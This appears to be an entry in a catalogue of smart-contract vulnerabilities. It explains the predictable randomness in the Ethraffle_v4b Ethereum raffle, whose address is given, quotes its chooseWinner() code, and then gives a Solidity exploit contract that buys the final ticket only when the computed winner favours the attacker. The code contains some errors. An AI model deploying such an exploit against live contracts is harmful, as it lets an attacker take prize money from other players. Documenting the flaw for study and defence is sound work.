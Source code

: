 Ethraffle_v4b
======
https://etherscan.io/address/0xcC88937F325d1C6B97da0AFDbb4cA542EFA70870#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle_v4b, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses block coinbase and difficulty as the seed. This can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket == totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        address seed1 = contestants[uint(block.coinbase) % totalTickets].addr;
        address seed2 = contestants[uint(msg.sender) % totalTickets].addr;
        uint seed3 = block.difficulty;
        bytes32 randHash = keccak256(seed1, seed2, seed3);

        uint winningNumber = uint(randHash) % totalTickets;
        address winningAddress = contestants[winningNumber].addr;
        
        ......
        
        winningAddress.transfer(prize);
    }

Details
------
After all tickets in a round(50 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all the buyers who will claim the price. However, `block.coinbase`, `block.difficulty` and the mapping `contestants` are all readable from etherchain, so the result can be determined in an attack contract.

Exploit
------
    contract Exploit{
    
        Ethraffle_v4b target;
        
        struct Contestant {
            address addr;
            uint raffleId;
        }
        //The data of this mapping can be accessed from the chain.
        mapping (uint => Contestant) contestants;
        
        uint constant totalTickets = 50;
        
        function Exploit(address _target) public payable{
            target = Ethraffle_v4b(_target);
        }
    
        function attack(uint256 _amount) public payable{
        
            uint current_sold = target.nextTicket;
            if(current_sold + 1 == totalTickets){
                address seed1 = contestants[uint(block.coinbase) % totalTickets].addr;
                address seed2 = contestants[uint(this.address) % totalTickets].addr;
                uint seed3 = block.difficulty;
                bytes32 randHash = keccak256(seed1, seed2, seed3);
                uint winningNumber = uint(randHash) % totalTickets;
                
                if(winningNumber + 1 == totalTickets){
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
            
        }
    }
